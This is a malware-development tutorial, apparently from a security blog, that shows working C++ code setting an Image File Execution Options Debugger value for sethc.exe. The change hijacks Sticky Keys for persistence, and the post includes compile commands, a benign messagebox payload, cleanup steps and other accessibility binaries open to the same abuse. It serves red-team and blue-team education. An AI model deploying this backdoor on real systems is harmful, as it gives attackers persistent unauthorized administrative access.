




\newpage
\subsection{78. malware development: persistence - part 12. Accessibility Features. Simple C++ example.}

﷽

{width="80%"}    

This post is the result of my own research into another admin-level malware persistence trick: via Accessibility Features.    

In the one of the [previous](https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html) posts, I wrote about persistence via Image File Execution Options. In the one of the PoC examples, we just created a debugger to a victim process in this registry key:

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\mspaint.exe`

then only requires the malicious application to be stored in `System32`.    

### practical example. sethc.exe

Today I just replace our victim process with `sethc.exe`. But what is `sethc.exe`? It appears it is responsible for sticky keys. Pressing the `Shift` key `5` times will enable the sticky keys:    

{width="80%"}    

Instead of the legitimate `sethc.exe`, "the rogue sethc.exe" , as usually for simplicity it is a meow messagebox, will be executed. The source code is pretty similar (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via Accessibility Features
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image 
  File Execution Options\\sethc.exe";

  // evil app
  const char* exe = "C:\\Windows\\System32\\hack.exe";

  // Debugger
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
    // Execution Options\sethc.exe" /v Debugger /d "hack.exe"
    RegSetValueEx(hkey, (LPCSTR)"Debugger", 0, REG_SZ, (unsigned char*)exe, 
    strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Meow-meow messagebox:    

```cpp
/*
hack.cpp
evil app for windows persistence
via Accessibility Features
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

### demo

Let's go to see everything in action. Check registry keys before:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\
Image File Execution Options" /s
```

{width="80%"}    

Then, compile our `pers.cpp`:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}    

Run and check registry keys again:    

> **You need to have administrative privileges to replace the genuine Windows binary of the tool**

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
Execution Options\sethc.exe" /s
```

{width="80%"}    

Finally, pressing `Shift` key `5` times:     

{width="80%"}    

Note to the properties of the `hack.exe`:     

{width="80%"}    

{width="80%"}    

Perfect! =^..^=    

After end of experiments, for cleanup, run:    

```powershell
Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image 
File Execution Options\sethc.exe" -Force -Verbose
```

{width="80%"}    

### conclusion

The Windows Accessibility Features are a collection of utilities accessible via the Windows sign-in screen (like Sticky Keys). Some Accessibility features and their corresponding trigger choices and locations include:    

**1. Utility Manager**     
- `C:\Windows\System32\Utilman.exe`     
- Trigger: `Windows key + U`      

**2. On-Screen Keyboard**     
- `C:\Windows\System32\osk.exe`      
- Trigger: Click on On-screen keyboard button     

**3. Magnifier**   
- `C:\Windows\System32\Magnify.exe`     
- Trigger: `Windows Key + =`        

**4. Narrator**       
- `C:\Windows\System32\Narrator.exe`    
- Trigger: `Windows Key + Enter`    

**5. Display Switcher**     
- `C:\Windows\System32\DisplaySwitch.exe`    
- Trigger: `Windows Key + P`    

These Windows capabilities became well-known when the APT groups exploited them to backdoor target PCs. For example, [APT3](https://attack.mitre.org/groups/G0022/), [APT29](https://attack.mitre.org/groups/G0016/) and [APT41](https://attack.mitre.org/groups/G0096/) used sticky keys.     

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[MITRE ATT&CK. Event Triggered Execution: Accessibility Features](https://attack.mitre.org/techniques/T1546/008/)    
[APT3](https://attack.mitre.org/groups/G0022/)      
[APT29](https://attack.mitre.org/groups/G0016/)     
[APT41](https://attack.mitre.org/groups/G0096/)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-09-30-malware-pers-12)      
